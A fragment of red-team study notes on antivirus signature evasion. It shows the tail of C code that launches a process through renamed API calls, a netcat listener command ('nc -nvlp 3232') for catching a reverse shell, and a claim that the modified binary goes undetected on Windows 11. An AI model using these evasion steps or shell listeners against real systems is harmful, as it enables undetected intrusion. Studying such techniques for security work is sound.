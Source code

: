 ```C
            myCreateA(NULL, format, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            // Remove printf statements

            tryDontWaitForCalculation(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}
```

prepare 

```
nc -nvlp 3232
```

Uploading the modified binary in Windows 11 default setting does not get detected:

![Signature Evasion Code Blocks-5.png](/img/user/cards/red-team/images/Signature%20Evasion%20Code%20Blocks-5.png)

